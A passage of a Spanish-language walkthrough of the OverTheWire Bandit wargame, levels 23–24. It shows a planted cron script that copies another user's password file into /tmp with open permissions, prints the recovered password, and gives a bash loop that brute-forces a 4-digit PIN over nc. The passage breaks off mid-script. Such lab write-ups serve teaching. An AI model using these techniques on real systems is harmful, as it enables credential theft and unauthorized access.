 El programa **cron** ejecuta un script que viendo el contenido, se puede ver que ejecuta los scripts que haya en ```/var/spool/bandit24``` y posteriormente los borra.

~~~bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
~~~

Sabiendo esto, entonces se genera un script que copie la contraseña del usuario bandit24 (como cron es ejecutado con permisos de dicho usuario, se podrá acceder al fichero) en el directorio ```/tmp``` y que asigne permisos.

El script es el siguiente:

~~~console
bandit23@bandit:~$ echo "cp /etc/bandit_pass/bandit24 /tmp/banditpass.txt && chmod 777 /tmp/banditpass.txt" > /var/spool/bandit24/script && chmod a+x /var/spool/bandit24/script
~~~

Si se realiza bien, sólo queda esperar a que se haya borrado el script generado para ver el contenido del fichero con la contraseña en la ruta definida.

~~~console
bandit23@bandit:~$ cat /tmp/banditpass.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~

## Nivel 24. ## 

El enunciado informa que un demonio está escuchando en el puerto 30002 y dará la contraseña del usuario siguiente si se le envía la contraseña de bandit24 y un código numérico de 4 dígitos. 

También dice que no hay forma de recuperar el código PIN, excepto si se repasan todas las 10000 combinaciones, lo que se denomina, ataque de fuerza bruta.

Conociendo el comportamiento del demonio, se desarrolla el siguiente script para que vaya probando las conbinaciones **desde el número 0001 hasta el número 10000**.

~~~bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in {0001..10000}; do
    response=$(echo "${password} ${i}" | timeout -s 9 1 nc 127.0.0.1 30002)
    check=$(echo ${response} | grep "Wrong")
    if [ ${?} -eq 0 ]; then
        echo "Contraseña fallida: ${i}"
    else
        echo "Contraseña correcta: ${i}"
        echo ${response}
        exit 0
~~~
